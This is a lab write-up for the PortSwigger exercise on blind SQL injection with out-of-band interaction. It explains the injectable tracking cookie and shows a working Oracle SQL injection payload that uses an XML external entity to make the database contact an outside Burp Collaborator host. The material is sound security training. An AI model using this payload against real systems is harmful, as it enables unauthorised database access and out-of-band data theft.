

# Lab: Blind SQL injection with out-of-band interaction

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band>  
Difficulty: PRACTITIONER  

## Known information

- vulnerable to blind SQL injection
- parameter: value of tracking cookie
- Result of injection: No visible difference in page, no timing difference
- DB may perform DNS queries
- Goal: Perform a DNS lookup

## Query

The query will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In example case, the cookie contains this content
`Cookie: TrackingId=uD5bMjtaBP5WNste; session=npWR2WTlX6rdoW3hr8p71NaSzOy2QZzD`

I will omit the complete cookie content from now on and only provide the string appended to the TrackingId value.

## Steps

The first step is to create a new Burp Collaborator listener



The [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) contains multiple strings to cause a DNS lookup. I don't know the database engine used, so I try all payloads given there.

Starting with Oracle, I append the given payload to the cookie value. I ensure the query remains valid by adding brackets, concatenations and quotes around the payload (`'||(<PAYLOAD>)||'`) to create this query:

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'||(SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://h9r49h8t93o98v0z0canusskqbw1kq.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)||'
```


